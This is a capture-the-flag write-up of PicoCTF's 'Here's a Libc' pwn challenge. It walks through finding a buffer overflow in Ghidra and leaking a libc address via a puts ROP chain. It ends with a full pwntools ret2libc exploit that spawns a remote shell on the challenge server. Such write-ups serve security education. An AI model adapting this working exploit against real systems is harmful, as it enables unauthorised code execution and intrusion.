 # PicoCTF - Here’s a Libc [Pwn]

[Massimiliano Pellizzer](https://medium.com/u/3e4cf530f0ac) on 2021-07-08

## Introduction

“Here’s a Libc” is a pwn challenge of [PicoCTF](https://picoctf.org/).

The challenge provides a binary file (the program to exploit), and the Libc used by the program remotely.

## Reverse Engineering

The first thing I did was to get some general information about the binary file and the security measures employed by the program itself.

![](https://cdn-images-1.medium.com/fit/c/800/293/1*-p8ek4D1voi2IqOTouyziA.png)General information about the program and its security measures

It is possible to notice that the file is a 64bit ELF file, and the only interesting security measure employed is the [no-execute bit](https://en.wikipedia.org/wiki/NX_bit). Because of this security measure (and because the name of the challenge), I imagined that, in order to solve the challenge, it was necessary to jump into the Libc.

Unfortunately I was not able to execute the binary locally, nor analyze it by using [GDB](https://www.gnu.org/software/gdb/). (If there is anybody who knows why or how to solve the problem, I would appreciate if she/he could drop me a line. Working together with other CTF players would really help me in extending my knowledge on the topic).

![](https://cdn-images-1.medium.com/fit/c/800/156/1*Gyh9nKj7O8QuL0aOPw-tyg.png)Segmentation fault when executing locally

The only option remaining was to perform some static analysis by using [Ghidra](https://ghidra-sre.org/). After some variable renaming and retyping I was able to understand that the program implemented an echo server. From an high level perspective, it receives a string from the user and it prints it out by making all the letters in even positions upper case and the letters in odd positions lower case.

![](https://cdn-images-1.medium.com/fit/c/417/124/1*bP6mypbS5wXs9aYjEqAaEQ.png)Echo server implementation

By looking at the code in Ghidra it was very easy to spot a buffer overflow of unlimited length.

![](https://cdn-images-1.medium.com/fit/c/422/341/1*5aZqMSGI3q__oFMQZzaesw.png)Buffer Overflow

It is possible to see that the program takes as input a string of unlimited length and stores it inside a buffer of 112 bytes.

## Exploitation: General Idea

By exploiting the buffer overflow spotted previously it is possible to obtain full control of the instruction pointer, but there something missing: the address of Libc where to jump to. However, there is a _puts_ in the code that prints what is stored at the address passed as argument.

From the considerations done above I came up with the following idea:

1. Create a [ROP chain](https://en.wikipedia.org/wiki/Return-oriented_programming), by using local gadgets, in order to pass to the _puts_ function an address of the [[GOT table]] (this is possible because the binary is not PIE, therefore the addresses of the GOT table entries are static and visible from Ghidra)
2. Jump to the _puts_ function (actually, it is safer to jump to the _puts_ in the Libc by using the [[PLT table]]
3. Print the (dynamic) address of the Libc’s _puts_ function
4. Force the program to return to the first instruction of the _main_ function, in order to execute the program once again and therefore in order to exploit the buffer overflow one more time
5. Create a new ROP chain in order to jump to the _execve_ function, in the Libc, therefore forcing the program to spawn a new program: _/bin/sh_

## Exploitation: Implementation

In order to implement the idea explained before it was necessary to make few steps.

The first thing to do was to find the right padding. By not having the possibility of executing the file locally I was forced to do some trial and error remotely by sending strings of different length until the program crashed.

Once I found the the right padding I retrieved some useful addresses in the binary:

- The address of the gadget _pop rdi, ret;_
- The address of the entry in the GOT table corresponding to the function _puts_
- The address of the entry in the PLT table corresponding to the function _puts_
- The address of the of the first instruction of the _main_ function

In particular, in order to retrieve the address of the gadget I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget), while, for the other addresses I used Python. By having all these addresses I was able to construct the first ROP chain, and therefore, to make the program print the address of the _puts_ function in the Libc.

Then, by having the address of the Libc’_s puts_ function, I was able to calculate the base address of the Libc:

Libc_base = Leaked_address - Static_offset

where the static offset is the address of the _puts_ function in the Libc, assuming the Libc base address is 0x0000000000000000 (I found it using Python on the copy of the Libc used remotely, provided by the challenge).

Then, by having the Libc base address, I was able to find the addresses of:

- the _execve_ function in the Libc
- the string “_/bin/sh\x00”_ inside the Libc
- a null pointer inside the Libc

All these addresses where found using Python.

Finally, in order to create the second ROP chain, I missed two gadgets

- _pop rsi, ret;_ (I found it locally)
- _pop rdx, ret;_ (I found it in the Libc)

All these gadgets where found using ROPgadget.

The final code implementing the exploit is the following one:

```python
#!/bin/python3

from pwn import *

HOST = 'mercury.picoctf.net'
PORT = <insert_your_port>
EXE  = './vuln'

if args.EXPLOIT:
    r = remote(HOST, PORT)
    libc = ELF('./libc.so.6')

exe = ELF(EXE)

pop_rdi = 0x400913
pop_rsi = 0x023e8a
pop_rdx = 0x001b96
offset  = libc.symbols['puts']

r.recvuntil(b'sErVeR!\n')

payload  = b'A'*136
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.symbols['main'])

r.sendline(payload)

r.recvline()

leak = r.recv(6)+b'\x00\x00'
leak = u64(leak)

libc.address = leak - offset
binsh        = next(libc.search(b'/bin/sh\x00'))
system       = libc.symbols['system']
nullptr      = next(libc.search(b'\x00'*8))
execve       = libc.symbols['execve']

payload  = b'A'*136
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(libc.address + pop_rsi)
payload += p64(nullptr)
payload += p64(libc.address + pop_rdx)
payload += p64(nullptr)
payload += p64(execve)

r.sendline(payload)

r.interactive()
```

Once the script executed, I was able to obtain a shell attached to the remote server and therefore I was able to extract the flag:

![](https://cdn-images-1.medium.com/fit/c/800/518/1*GlBaWZnVc2eD3TV4IOq-sg.png)Flag

Pwned!